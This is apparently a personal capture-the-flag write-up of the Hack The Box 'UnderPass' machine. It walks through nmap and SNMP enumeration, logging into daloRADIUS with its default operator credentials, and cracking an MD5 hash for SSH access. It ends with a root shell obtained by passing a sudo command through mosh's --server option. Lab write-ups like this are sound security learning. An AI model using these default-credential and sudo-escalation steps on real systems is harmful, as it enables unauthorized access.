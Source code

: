 # UnderPass

Trying to get back into the saddle with capture the flag style games.

10.10.11.48
Linux
Easy

It's been a minute, lets take a crack at it.

Start with [NMap](/blog/ctfs/notes/nmap) of course.

`> nmap -sC -sV -vv 10.10.11.48`

    #!sh
    PORT   STATE SERVICE REASON  VERSION
    22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
    |   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91 
    80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
    | http-methods:
    |_  Supported Methods: POST OPTIONS HEAD GET
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Default Apache HTTP page exists on `http://10.10.11.48`

Directory busting - `/server_status` has a 403 but I think that might be a default thing.

Don't seem to be getting anywhere with this.

Virtual host busting now - nothing there either. using the IP address though so it's not clear.

Lets just try adding `underpass.htb` to the hosts file because usually that's what the host is named.

Still getting back the same default Apache page, lets try the virtual hosts again.

Nope.

The server doesn't seem to host any `DNS` let's do a full port scan.

`> nmap -sS -p- -vv underpass.htb`

    #!sh
    PORT   STATE SERVICE REASON
    22/tcp open  ssh     syn-ack ttl 63
    80/tcp open  http    syn-ack ttl 63

Same thing.

Hmm... what about `UDP`?

`> nmap -sU -vv underpass.htb`

    #!sh
    PORT     STATE         SERVICE REASON
    161/udp  open          snmp    udp-response ttl 63
    1812/udp open|filtered radius  no-response
    1813/udp open|filtered radacct no-response


Oh! looks like we have `SNMP` related things? Is that a Hack the Box thing? lets test another IP and see.

Nope

Okay, down the [SNMP](/blog/ctfs/notes/snmp) rabbit hole.

found a useful command `snmpwalk` 

Apparently version 3 of `SNMP` introduces stronger authentication so its always worthwhile to try the weaker versions of the protocol first.

Just for future reference. `SNMP` version 2 and below uses something like a password to protect the data called a `community string` 

For publicly available data, usually that password is something like `public`. You can also find default configurations with `private`. 

`> snmpwalk -v 2c -c public underpass.htb`

    SNMPv2-MIB::sysDescr.0 = STRING: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
    SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
    DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (4135752) 11:29:17.52
    SNMPv2-MIB::sysContact.0 = STRING: steve@underpass.htb
    SNMPv2-MIB::sysName.0 = STRING: UnDerPass.htb is the only daloradius server in the basin!
    SNMPv2-MIB::sysLocation.0 = STRING: Nevada, U.S.A. but not Vegas

Looks like we found a username, super useful. This looks like something that could even be found in the wild.

We also found what looks like the name of a service. `daloradius`

Doing a quick search online, that's exactly what it is.

Looking around this github, I found a route `/daloradius/app/users/login.php` which will allow me to log into the application. Maybe from here we can gather the version of the webserver and look for any CVEs.

https://github.com/lirantal/daloradius.git

Tried all the default credentials in the README

Okay, so i was messing around some more. The default creds dont work under `daloradius/app/users/login.php` but it does work under `daloradius/app/operators/login.php` probably because admins are operators or something

anyway

![daloradius-admin](file:///home/parker/Pictures/Screenshots/htb-daloradius.png)

found one user named `svcMosh` 


mosh is like ssh so perhaps its connected to the ssh port. if its the mosh im thinking of... 

the user's MD5 password is seemingly right here in the UI lmao 

cracking 

the MD5 hash was:  `412DD4759978ACFCC81DEAB01B382403` 
the password is: `underwaterfriends` 

okay so using those creds with ssh doesnt seem to do anything. not with `steve` or `svcmosh`

maybe this will come in handy later?

daloradius version `version 2.2 beta / 03 Jul 2024` so maybe no SQLi...

I WAS BEING DUMB. CASE MATTERS

`ssh svcMosh@underpass.htb` with the cracked hash gives us a user on the box. yay~

Okay... after looking through the machine for a few hours, here's what we have.

The first thing to do is check if we straight up have root privs for anything, so `sudo -l` which gives us the interesting path of `/usr/bin/mosh-server`

I will save you the wasted time and effort I made while trying to crack this, but this is kinda sneaky.

the program `mosh` works by running `mosh-client` to interact with ssh, and then through ssh to start `mosh-server` on the remote machine.

if we had `sudo` privs for `mosh` we could just use the `-- [command]` option for escalation, for some reason in the `mosh-server` command that option does not work.

the `mosh` command has an argument called `--server` which is _what I thought was_ a strict path, however it's perfectly valid to supply arguments as well.

Seeing this, there's nothing stopping us from supplying `sudo /usr/bin/mosh-server` for the path.

When running `mosh --server="sudo /usr/bin/mosh-server" localhost` we are dropped into a root shell

nice!